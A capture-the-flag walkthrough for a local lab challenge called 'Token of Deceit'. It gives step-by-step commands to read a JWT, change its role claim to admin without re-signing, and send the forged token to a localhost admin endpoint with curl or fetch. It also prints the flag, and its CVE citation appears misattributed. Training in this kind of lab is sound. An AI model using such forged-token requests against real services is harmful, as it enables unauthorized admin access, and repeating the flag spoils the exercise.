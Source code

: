 **HOW TO SOLVE: TOKEN OF DECEIT**

1. Sign up
  •	Create an account to be automatically assigned the "user" role.

2. Login
  •	After account creation, you’ll be redirected to the login page.
  •	Use the same credentials to log in.
  •	Upon successful login, the server generates and sends a JWT.

3. Decode the JWT without verifying the signature
  a. Open the console:
    •	On MacOS, press (Option + Command + J).
    •	On Windows, press (Ctrl + Shift + J).
  b. You’ll see the following message: **GET http://localhost:3000/admin 403 (Forbidden)**
  c. Run the following command in the console to get the token:

     **localStorage.getItem('token');**
   
    •	You’ll see a token with three parts, each separated by a period (.).
  d. The token role will be "user" as per your credentials.
  e. Visit jwt.io and paste the JWT into the "Encoded" field to view the decoded payload.

4. Manipulate the JWT Payload
  a. Change the role to "admin".

    For example:
    {
      "username": "isabella",
      **"role": "admin",**
      "iat": 1738901843,
      "exp": 1738905443
    }
  b. No need to re-sign the token, as the program has a vulnerability that does not verify the signature.
  c. Your JWT is now modified.

5. Send the Manipulated JWT to the Server (2 ways)
You can use one of the following methods to send the modified JWT to the server:

a. Using cURL (command line):
  •	Open your terminal and type:
  
    **curl -H "Authorization: Bearer MANIPULATED-JWT" http://localhost:3000/admin**

b. Using the Browser Console:
  •	Run this JavaScript:
  
**    fetch("http://localhost:3000/admin", {
        method: "GET",
        headers: {
            "Authorization": "Bearer MANIPULATED-JWT"
        }
    })
    .then(response => response.json())
    .then(data => console.log(data))
    .catch(error => console.error("Error:", error));**

6. Access the Admin Endpoint and Retrieve the Flag
a. The server will decode the manipulated token and grant admin access.
b. The server will respond with the flag: {"flag":"ATHACKCTF{trust_is_a_vulnerability}"}

**Vulnerability:**
•	CVE-2022-23529 (jsonwebtoken <=8.5.1): The server fails to verify the JWT's signature, allowing the payload to be manipulated without detection.


Ensure that all dependencies required to build or run the solution are provided (e.g., `requirements.txt`) or thoroughly documented.
